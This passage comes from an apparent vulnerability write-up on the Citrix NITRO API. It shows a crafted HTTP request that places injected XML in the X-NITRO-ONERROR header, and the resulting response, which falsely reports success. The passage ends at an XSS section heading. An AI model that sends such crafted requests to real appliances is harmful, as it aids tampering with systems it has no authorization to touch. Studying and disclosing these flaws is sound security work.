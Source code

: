 The `nsrest_exec()` function is a custom PHP function shipped by Citrix in a library file called `libphp7.so`. This function either returns an XML object upon successful execution, or `FALSE` if it fails. Somewhere along the line `FALSE` turns to `NULL` and `NULL` turns to `0`. I don't know the exact inner workings of `nsrest_exec` but long story short: invalid XML in `X-NITRO-ONERROR` means a response that indicates all is well.

For example, this request containing invalid XML:
```http
POST /nitro/v1/config/server HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
Content-Type: application/xml
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
DNT: 1
Connection: close
Content-Length: 17
X-NITRO-ONERROR: exit</onerror><idempotent>yes</idempotent><format>xml</format><rawdata>yes</rawdata></params><server></server><params><onerror

<server></server>
```

Will return this response:
```http
HTTP/1.1 201 Created
Date: Tue, 28 Jan 2020 10:52:07 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Set-Cookie: SESSID=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-XSS-Protection: 1; mode=block
Content-Length: 126
Connection: close
Content-Type: application/xml; charset=utf-8

<?xml version="1.0"?>
<nitroResponse><errorcode>0</errorcode><message>Done</message><severity>NONE</severity></nitroResponse>
```

Indicating that everything is okay, and that authentication passed. In reality nothing actually happened, but other functions using the errorcode to validate if an API call succeeded will falsely assume success. Haven't found anything good to use this for though. Oh well, that's life. Moving on!

### XSS
I don't think I need to spend a lot of time on explaining to you what XSS is. So here is the request:
